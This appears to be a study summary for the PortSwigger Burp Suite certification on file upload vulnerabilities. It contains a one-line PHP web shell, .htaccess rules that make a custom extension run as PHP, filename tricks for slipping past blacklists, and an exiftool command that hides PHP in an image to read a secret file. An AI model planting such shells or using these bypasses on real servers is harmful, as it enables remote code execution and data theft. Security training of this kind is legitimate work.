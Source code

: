##### PortSwigger BurpSuite Certification Summary
# File Upload Vulnerability
Being able to upload files to a web server poses a great security risk if not handled correctly, especially if there is a way for the attacker to execute code on the web server.

As so often, the client might be able to manipulate data in a way that was not intended. This includes altering the file type (as it is shown in the request) so the backend's white/blacklisting doesn't interfere with the upload. Because of this, it is detrimental to properly check the file for the correct type.

#### PHP
Execute arbitrary shell command by providing the argument `GET /exploit.php?command=id`
```
<?php echo system($_GET['command']); ?>
```
#### Apache 
The apache server utilizes config files in order to determine how a file is handled. It is there where it's specified if a file is run on the server, thus an attacker controlling a config will be able to make their own file executable.
The local config file `.htaccess` is best suited to do so, as it overrides the global config and is usually easier to create/alter than the one in `/etc/apache2/apache2.conf`.

To execute `php` , the module has to be loaded first. With `AddType` arbitrary file extensions can be mapped to an existing one, which will be then handled as such.
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .l33t
```
In the example, all files with the extension `.l33t` will be reagarded as php files and executed as such.

The same principle with the local configs applies for **IIS** which uses `web.config`.

## Obfuscating the File Extension
There are several ways of obfuscating the file names in a way that it passes the blacklist and is still executed the way it is intended (maliciously):
  * Multiple extensions `exploit.php.jpg`
  * Trailing characters (whitespace, dot, etc.)
  * URL encode (once or twice) special characters
  * Add a semicolon or null byte character before the extension 
  * Separate with a semicolon or null byte (`exploit.php%00.png` )
  * Using multibyte unicode characters (`xC0 x2E | xC4 xAE | xC0 xAE`)
  * Repeat string to abuse non-recursive stripping (`exploit.p.phphp`)

## Hide the Code
If the server checks the file content for actual correctness (e.g. that it is indeed an image and not code), the metadata can be used to hide the code within a valid file. This creates a so-called *polyglot* file, which can be "easily" created with the `ExifTool`:
```
exiftool -Comment="
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>"
<YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```
## Try PUT
Even if there is no button for a file upload, it might be possible to upload it through a PUT request. The OPTIONS request to different endpoints can reveal if PUT is supported.